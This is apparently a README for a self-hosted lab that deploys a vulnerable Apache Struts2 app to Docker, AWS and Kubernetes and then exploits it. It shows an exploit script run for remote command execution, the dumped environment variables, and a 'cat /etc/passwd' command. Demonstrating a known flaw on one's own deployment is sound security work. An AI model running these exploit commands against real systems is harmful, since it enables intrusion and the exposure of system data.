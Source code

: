 # struts_poc  
git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  
#public login to us-west-2 not supported by aws  
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
struts   LoadBalancer   10.100.144.108   a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'env'  
KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42 47309207D818FFD8DCD3F83F1931D684307A10A5 541FBE7D8F78B25E055DDEE13C370389288584E7 61B832AC2F1C5A90F0F9B00A1C506407564C17A3 713DA88BE50911535FE716F5208B0AB1D63011C7 79F7026C690BAA50B92CD8B66A3AD3F4F22C4FED 9BA44C2621385CB966EBA586F72C284D731FABEE A27677289986DB50844682F8ACB77FC2E86E29AC A9C5DF4D22E99998D9875A5110C01C5A2F6059E7 DCFD35E0BF8CA7344752DE8B6FB21E8933C60243 F3A04C595DB5B6A5F1ECA43E3B7BBB100D811BBE F7DA48BB64BCB84ECBA7EE6935CD23C10D498E23  
STRUTS_PORT=tcp://10.100.144.108:8080  
PWD=/usr/local/tomcat  
TOMCAT_SHA512=612e830913bf1401bc9540e2273e465b0ee7ef63750a9969a80f1e9da9edb4888aa621fcc6fa5ba23cff94a40e91eb97e3f969b8064dabd49b2d0ea29e59b57e  
TOMCAT_MAJOR=7  
HOME=/root  
LANG=C.UTF-8  
KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443  
TOMCAT_NATIVE_LIBDIR=/usr/local/tomcat/native-jni-lib  
CATALINA_HOME=/usr/local/tomcat  
STRUTS_PORT_8080_TCP_PROTO=tcp  
SHLVL=0  
KUBERNETES_PORT_443_TCP_PROTO=tcp  
STRUTS_SERVICE_HOST=10.100.144.108  
JDK_JAVA_OPTIONS= --add-opens=java.base/java.lang=ALL-UNNAMED --add-opens=java.base/java.io=ALL-UNNAMED --add-opens=java.base/java.util=ALL-UNNAMED --add-opens=java.base/java.util.concurrent=ALL-UNNAMED --add-opens=java.rmi/sun.rmi.transport=ALL-UNNAMED  
KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1  
LD_LIBRARY_PATH=/usr/local/tomcat/native-jni-lib  
KUBERNETES_SERVICE_HOST=10.100.0.1  
KUBERNETES_PORT=tcp://10.100.0.1:443  
KUBERNETES_PORT_443_TCP_PORT=443  
PATH=/usr/local/tomcat/bin:/usr/local/openjdk-8/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin  
TOMCAT_VERSION=7.0.109  
STRUTS_PORT_8080_TCP=tcp://10.100.144.108:8080  
JAVA_VERSION=8u292  
STRUTS_PORT_8080_TCP_ADDR=10.100.144.108  
_=/usr/bin/env  
  
ubuntu@brett-jumpbox:~/apache-struts2-PoC$  
curl 127.0.0.1:8080/showcase.action -v  
#python3 -m venv .  
python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'  
![apache_struts_poc](https://user-images.githubusercontent.com/4404271/152885401-97a37adf-6aa8-4b97-847a-c665889b9b60.gif)
